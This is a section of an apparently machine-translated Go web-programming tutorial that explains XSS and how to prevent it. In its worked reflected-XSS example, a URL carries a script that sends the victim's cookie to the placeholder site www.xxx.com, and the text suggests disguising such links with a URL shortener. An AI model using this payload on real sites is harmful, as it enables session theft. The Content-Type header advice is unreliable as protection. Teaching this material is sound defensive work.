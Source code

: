 # 9.3 XSS attacks
With the development of Internet technology, and now the Web application contains a lot of dynamic content to improve the user experience. The so-called dynamic content is that the application environment and the user according to the user request, the output of the corresponding content. Dynamic site will be called "cross-site scripting attacks" (Cross Site Scripting, security experts often be abbreviated as XSS) threats, while static site is completely unaffected by it.

## What is XSS
XSS attacks: cross-site scripting attacks (Cross-Site Scripting), in order not to, and Cascading Style Sheets (Cascading Style Sheets, CSS) acronym confusion, it will be abbreviated as cross-site scripting attacks XSS. XSS is a common web security vulnerability that allows an attacker to provide malicious code into the pages used by other users. Unlike most attacks (generally involve the attacker and the victim), XSS involves three parties, namely the attacker, the client and Web applications. XSS attack goal is to steal a cookie stored on the client or other websites used to identify the identity of sensitive client information. Once you get to the legitimate user's information, the attacker can even impersonate interact with the site.

XSS can usually be divided into two categories: one is the storage type of XSS, mainly in allowing users to input data for use by other users who browse this page to view places, including comments, reviews, blog posts and various forms. Applications to query data from the database, the page is displayed, the attacker entered the relevant page malicious script data, users browse these pages may be attacked. This simple process can be described as: a malicious user input Html Web applications - > access to the database -> Web Programs - > user's browser. The other is reflective XSS, the main approach is to add the script code in the URL address of the request parameters, request parameters into the program directly to the output of the page, the user clicks a malicious link in a similar attack could be.

XSS present the main means and ends as follows:

- Theft of cookie, access to sensitive information.
- The use of implantable Flash, through crossdomain permissions set to further obtain a higher authority, or the use of Java and other get similar operations.
- Use iframe, frame, XMLHttpRequest or the Flash, etc., to (the attacker) the identity of the user to perform some administrative actions, or perform some, such as: micro-Bo, add friends, send private messages and other routine operations, some time ago, Sina microblogging suffered once XSS.
- The use of a domain can be attacked by other characteristics of domain trust to request the identity of trusted sources do not allow some of the usual operations, such as an improper voting.
- In a great number of visits on the page XSS attack some small sites can achieve the effect of DDoS attacks

## XSS principle
Web applications are not submitted the requested data to the user to make a full inspection filter that allows users to incorporate data submitted by HTML code (most notably">","<"), and the output of malicious code without escaping to third parties interpreted the user's browser, is leading causes of XSS vulnerabilities.

Next to reflective XSS XSS illustrate the process: There is now a website, according to the parameters outputs the user 's name, such as accessing url: `http://127.0.0.1/?name=astaxie`, it will output the following in the browser information:

	hello astaxie

If we pass this url: `http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>`, then you will find out a browser pop-up box, which Help the site has been in existence XSS vulnerabilities. So how malicious users steal Cookie it? 
And the like, as this url: 

`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`
, so that you can put current cookie sent to the specified site: `www.xxx.com`. You might say, so have a look at the URL of the problem, how would someone clicks? Yes, this kind of URL will make people skeptical, but if you use a short URL service to shorten it, you could see it?, The attacker will shorten the url in some way after the spread, know the truth once the user clicks on this url, cookie data will be sent the appropriate pre-configured sites like this on the user's cookie information Theft, then you can use a tool like Websleuth to check whether the user's account to steal.

A more detailed analysis about XSS we can refer to this called" [ Sina microblogging XSS event analysis ] (http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)" articles

## How to prevent XSS
The answer is simple, and resolutely do not believe any user input, and filter out all the special characters in the input. This will eliminate the majority of XSS attacks.

There are currently XSS defense following ways :

- Filtering special characters

One way to avoid XSS mainly to the user-supplied content filtering, Go language provides the HTML filter function :

`text/template` package below `HTMLEscapeString`, `JSEscapeString` other functions

- Using HTTP headers specified type

`w.Header().Set("Content-Type","text/javascript")`

This allows the browser to parse javascript code, and will not be html output.


## Summary
XSS vulnerability is quite hazardous in the development of Web applications, it is important to remember to filter data, especially in the output to the client, which is now well-established means of preventing XSS.

## Links
- [Directory] (preface.md)
- Previous section: [Filter inputs] (09.2.md)
- Next section: [SQL injection] (09.4.md)
